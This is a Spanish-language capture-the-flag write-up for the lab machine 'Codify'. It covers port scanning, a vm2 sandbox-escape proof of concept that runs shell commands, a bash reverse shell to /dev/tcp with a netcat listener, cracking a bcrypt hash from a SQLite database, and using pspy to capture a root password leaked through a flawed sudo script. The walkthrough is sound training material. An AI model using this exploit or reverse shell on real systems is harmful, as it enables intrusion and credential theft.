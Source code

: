 ```yaml
---
title: "Codify"
date: "2025-03-07T00:04:43-05:00"
type: "maquinas"
draft: false
tags: ["python", "sudoers", "linux", "pspy", "vm2", "sqlite3"]
---
```


### Descripción:
Maquina muy entretenida que nos enseña a explotar una vulnerabilidad en la libreria vm2 para luego mediante una base de datos conseguir la flag de usuario para escalar privilegios mediante un permiso de sudoers que por una mala configuracion nos permite listar la contraseña de root.

# Enumeración

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allPorts
nmap -sCV -p22,80,3000 -A -oN target IP
```

<a href="https://imgur.com/nKoR4C8"><img src="https://i.imgur.com/nKoR4C8.png" title="source: imgur.com" /></a>

Si tratamos de usar gobuster no encontraremos ningun subdominio ni subdirectorio interesante por lo que no lo voy a mostrar.

## Puerto 80

<a href="https://imgur.com/k6NZ39V"><img src="https://i.imgur.com/k6NZ39V.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/vlx4cMA"><img src="https://i.imgur.com/vlx4cMA.png" title="source: imgur.com" /></a>

Podemos ver como tenemos la posibilidad de ejecutar comandos `node.js` usando la libreria vm2 ademas de esto no vamos a encontrar nada más intreresante por lo que vamos a buscar vulnerabilidades de la libreria.

Encontraremos la siguiente poc para la libreria en github que es la que vamos a estar usando [POC](https://gist.github.com/seongil-wi/2a44e082001b959bfe304b62121fb76d).

```jsx
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

<a href="https://imgur.com/EwJLJfF"><img src="https://i.imgur.com/EwJLJfF.png" title="source: imgur.com" /></a>

# User

Ya con esto vamos a poder ejecutar comandos y asi montar una revshell,  nos dirigiremos a la pagina [RevShells](https://www.revshells.com/) y en nuestra poc ejecutaremos el siguiente comando:

```bash
#Primero ponte en escucha en tu maquina (el siguiente comando)
bash -c "/bin/bash -i >& /dev/tcp/IP/PUERTO 0>&1" 
```

Y nos pondremos en escucha con netcat en nuestra maquina local:

```bash
nc -lvnp PUERTO
```

Ya con esto le pediremos a la pagina que ejecute nuestro codigo.

<a href="https://imgur.com/BgatqgV"><img src="https://i.imgur.com/BgatqgV.png" title="source: imgur.com" /></a>

Listo lo primero es hacer el tratamiento de la `tty`:

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Ya en esta parte con find podemos encontrar una base de datos:

```bash
find /var/www/ -name *.db 2>/dev/null
```

Y veremos que hay una base de datos, usando file nos daremos cuenta que es una base de datos `sqlite`:

<a href="https://imgur.com/oYNhrQB"><img src="https://i.imgur.com/oYNhrQB.png" title="source: imgur.com" /></a>

Con esto podremos ver la base de datos que dentro tiene un hash:

<a href="https://imgur.com/YydnXgR"><img src="https://i.imgur.com/YydnXgR.png" title="source: imgur.com" /></a>

Y con el siguiente comando de hashcat podremos obtener la contraseña para ingresar como `joshua`:

```bash
hashcat hash.txt --wordlist /usr/share/wordlist/rockyou.txt -m 3200
```

# Root

<a href="https://imgur.com/GNcDqoF"><img src="https://i.imgur.com/GNcDqoF.png" title="source: imgur.com" /></a>

Enumerando encontramos este script que tenemos permiso de ejecutar como sudo:

<a href="https://imgur.com/AGLmyCR"><img src="https://i.imgur.com/AGLmyCR.png" title="source: imgur.com" /></a>

Si vemos el script esta mal montado por lo que cuando pida la contraseña podemos usar el * y nos dira que es correcto esto debido a que si no usamos dobles comillas para esas variables `DB_PASS` y `USER_PASS` podemos usar el * de forma que sin importar cual se la contraseña nos la dara como correcta esto tambien nos habilita la opcion de obtener la contraseña con python. Aquí un ejemplo de porque esto pasa:

<a href="https://imgur.com/WVdk3uj"><img src="https://i.imgur.com/WVdk3uj.png" title="source: imgur.com" /></a>

Para poder interceptar la contraseña vamos a usar [pspy](https://www.notion.so/Pspy-1a1094373800803aaa8bcb2094703815?pvs=21) igual que en las anteriores maquinas que lo hemos usado.

<a href="https://imgur.com/gLNcKij"><img src="https://i.imgur.com/gLNcKij.png" title="source: imgur.com" /></a>

Y ahi tenemos la contraseña.

> Si tienen curiosiodad de como se hacia mediante el script de python pueden ver esta parte del directo de [s4vitar](https://youtu.be/H7-Jd6HaLbI?t=2129).
>

